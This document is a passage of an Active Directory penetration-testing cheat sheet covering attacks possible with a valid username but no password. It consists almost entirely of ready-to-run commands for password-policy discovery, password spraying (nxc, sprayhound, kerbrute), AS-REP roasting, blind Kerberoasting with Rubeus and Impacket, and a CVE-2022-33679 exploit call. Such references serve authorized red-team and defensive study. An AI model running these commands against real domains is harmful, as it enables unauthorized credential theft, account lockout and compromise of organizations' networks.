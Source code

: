# Valid user (no password)

## Password Spray
- Get password policy  (you need creds,but you should get the policy  first to avoid locking accounts)
  - default policy
    - `nxc smb <dc_ip> -u '<user>' -p '<password>' --pass-pol`
      [https://www.thehacker.recipes/ad/recon/password-policy](https://www.thehacker.recipes/ad/recon/password-policy)
    - `Get-ADDefaultDomainPasswordPolicy`
    - `ldeep ldap -u <user> -p <password> -d <domain> -s ldap://<dc_ip> auth_policies`
  - Fined Policy (Privileged)
    - `ldapsearch-ad.py --server <dc> -d <domain> -u <user> -p <pass> --type pass-pols`
    - `Get-ADFineGainedPasswordPolicy -filter *`
    - `ldeep ldap -u <user> -p <password> -d <domain> -s ldap://<dc_ip> auth_policies`
- ⚠️ user == password >>> Clear text Credentials
  - `nxc smb <dc_ip> -u <users.txt> -p <passwords.txt> --no-bruteforce --continue-on-success`
  - `sprayhound -U <users.txt> -d <domain> -dc  <dc_ip>   # add --lower to lowercase and --upper to uppercase. Add nothing to get only user=pass`
- ⚠️ usuals passwords  (SeasonYear!, Company123, ...) >>> Clear text Credentials
  - `nxc smb <dc_ip> -u <users.txt> -p <password> --continue-on-success`
  - `sprayhound -U <users.txt> -p <password> -d <domain> -dc  <dc_ip>`
  - `kerbrute passwordspray -d <domain> <users.txt> <password>`

## ASREPRoast
- List ASREPRoastable Users (need creds)
  - `MATCH (u:User {dontreqpreauth:true}),(c:Computer), p=shortestPath((u)-[*1..]->(c)) RETURN p`
- ASREP roasting >>> Hash found ASREP
  - `GetNPUsers.py <domain>/ -usersfile <users.txt> -format hashcat -outputfile <output.txt>`
  - `nxc ldap <dc_ip> -u <users.txt>  -p '' --asreproast <output.txt>`
  - `Rubeus.exe asreproast /format:hashcat`
- Blind Kerberoasting >>> Hash found TGS
  - `Rubeus.exe keberoast /domain:<domain> /dc:<dcip> /nopreauth: <asrep_user> /spns:<users.txt>`
  - `GetUserSPNs.py -no-preauth "<asrep_user>" -usersfile "<user_list.txt>" -dc-host "<dc_ip>" "<domain>"/`
- CVE-2022-33679 @CVE@ >>> Lat move PTT 
  - `CVE-2022-33679.py <domain>/<user> <target>`